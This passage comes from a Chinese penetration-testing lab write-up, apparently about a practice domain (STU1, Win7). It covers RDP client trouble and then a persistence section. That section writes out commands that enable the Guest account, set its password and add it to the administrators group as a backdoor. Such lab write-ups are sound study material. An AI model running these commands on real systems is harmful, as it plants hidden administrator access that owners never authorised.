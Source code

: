 也确认了上面对Win7的配置没有出错

![image-20220814225454974](./1.assets/image-20220814225454974.png)



网上搜了一下，发现 rdesktop 不适用于 WinXP/2003+ (不含XP/2003)

![image-20220814225701766](./1.assets/image-20220814225701766.png)



试一下用Win10的RD Client，成功连接，说明确实是 rdsektop 的问题

> 当然，也可以用Linux上的Remmina

![image-20220814225917789](./1.assets/image-20220814225917789.png)



## 权限维持

### Guest后门

> 注：应加上域标签，如果完全复制此种方式，只是添加到STU1域

```bash
shell net user									 # 查看本机用户
```

![image-20220814232334204](./1.assets/image-20220814232334204.png)

```bash
net user guest /active:yes						 # 激活guest
```

```bash
shell net user guest Aa123456					 # 给Guest用户设置密码
```

```bash
shell net localgroup administrators guest /add    # 将guest加入到管理员中
```

### 添加新用户后门

> 注：应加上域标签，如果按照上面Guest后门的方式，只是添加到STU1域里

![image-20220815002522071](./1.assets/image-20220815002522071.png)

![image-20220815002532623](./1.assets/image-20220815002532623.png)

然后用RD Client连接即可

### 尴尬之处

两边登录都会互踢
